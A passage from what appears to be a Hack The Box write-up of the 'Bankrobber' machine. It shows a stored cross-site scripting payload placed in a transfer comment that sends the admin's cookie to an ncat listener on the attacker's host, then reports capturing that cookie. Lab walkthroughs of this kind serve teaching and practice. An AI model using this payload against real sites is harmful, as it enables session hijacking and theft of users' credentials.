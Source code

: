 Judging by this message it looks like the site's admin or, more likely, a job running as the site's admin is 
periodically checking and approving transfers. This indicates that a client-side attack could be used to steal the admin's cookie.

## Site admin
I start an ncat listener on port 80 and create an E-coin transfer with the following payload added in the comment section
```
<img src=x onerror=this.src="http://10.10.14.51/?c="%2bdocument.cookie>
```
![transferpayload](/assets/images/HTB/Bankrobber/transferpayload.jpg)

This is how the request looks in Burp.
![burp_](/assets/images/HTB/Bankrobber/burp_.jpg)

In Burp i can see that my cookie contains my user ID, as well as my BASE64 encoded username and password.
The request also references my user ID in fromID.
The lsitener I've started earlier catches the admin cookie within a couple of minutes.
![admcookie](/assets/images/HTB/Bankrobber/admcookie.jpg)
